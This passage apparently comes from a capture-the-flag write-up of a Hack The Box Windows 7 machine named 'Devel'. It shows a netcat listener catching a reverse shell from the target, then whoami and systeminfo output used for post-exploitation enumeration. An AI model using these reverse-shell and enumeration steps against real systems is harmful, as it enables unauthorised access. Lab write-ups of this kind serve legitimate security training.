 <br />
Check the listener and catch the shell.

{% raw %}
```sh
└──╼ [★]$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.5] 49161
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
{% endraw %}

<br />
Run whoami just to test the command execution and see who we are.

{% raw %}
```sh
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```
{% endraw %}

<br />
Run systeminfo to get a sense of the system that we are on.

{% raw %}
```sh
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          17/1/2025, 3:14:31 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2645 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.470 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.552 MB
Virtual Memory: In Use:    589 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
```